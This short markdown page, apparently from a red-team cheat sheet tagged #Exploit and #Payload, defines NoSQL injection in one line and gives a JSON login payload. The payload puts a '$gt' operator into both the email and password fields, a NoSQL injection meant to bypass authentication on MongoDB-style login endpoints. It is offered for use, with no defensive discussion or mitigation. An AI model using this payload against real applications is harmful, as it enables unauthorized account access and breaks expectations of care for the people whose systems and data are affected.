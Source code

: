 #Exploit #Payload #Vulnerability #Red-Team #script 


## What is Non-SQLi

#### Targets NoSQL databases by exploiting their specific query syntax.



## Payload:

````
{
"email":"{ \"$gt\": \"\" }",
"password":"{ \"$gt\": \"\" }"
}
````


